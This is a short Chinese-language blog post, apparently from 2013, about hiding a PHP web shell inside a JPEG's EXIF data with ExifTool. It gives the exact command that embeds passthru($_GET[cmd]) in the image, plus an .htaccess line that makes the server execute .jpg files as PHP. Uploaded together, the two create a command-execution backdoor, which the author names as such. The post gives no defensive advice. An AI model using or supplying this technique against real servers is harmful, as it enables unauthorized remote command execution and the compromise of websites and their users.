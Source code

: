 ```yaml
---
layout: post
title: "Image exif tool"
date: 2013-02-27 15:58
comments: true
categories: Security
---
```


最近在網路上找Image exif的修改工具 for Mac，

最後找到 [ExifTool][exiftool]

不過，為什麼要找Exif的修改工具呢？

其實是在看到[Orange][orange]在Web Conf所講的[Talk][o-talk]後才想找的，

安裝完 [ExifTool][exiftool] 之後，

1.觀看圖片的Exif資訊

    $ exiftool test.jpg

2.修改圖片的Exif資訊，e.g., Document Name
    $ exiftool exiftool -documentname='<?php passthru($_GET[cmd]); __halt_compiler();?>' test.jpg
    $ file test.jpg
    ./test.jpg JPEG: image data, JFIF standard 1.01

大概是像上面這樣，

所以我們可以透過上傳test.jpg 以及 .htaccess

    $ cat .htaccess
    addhandler application/x-httpd-php .jpg

這是為了做什麼？

上傳後執行可以看到這樣的畫面

![image upload][imageup1]

<br>

![image upload][imageup2]

其實就是個小後門!


[exiftool]: http://www.sno.phy.queensu.ca/~phil/exiftool/
[o-talk]: http://www.slideshare.net/p8361/webconf-2013best-practices-the-upload
[imageup1]: images/imageup1.png "image upload"
[imageup2]: images/imageup2.png "image upload"
[orange]: http://blog.orange.tw
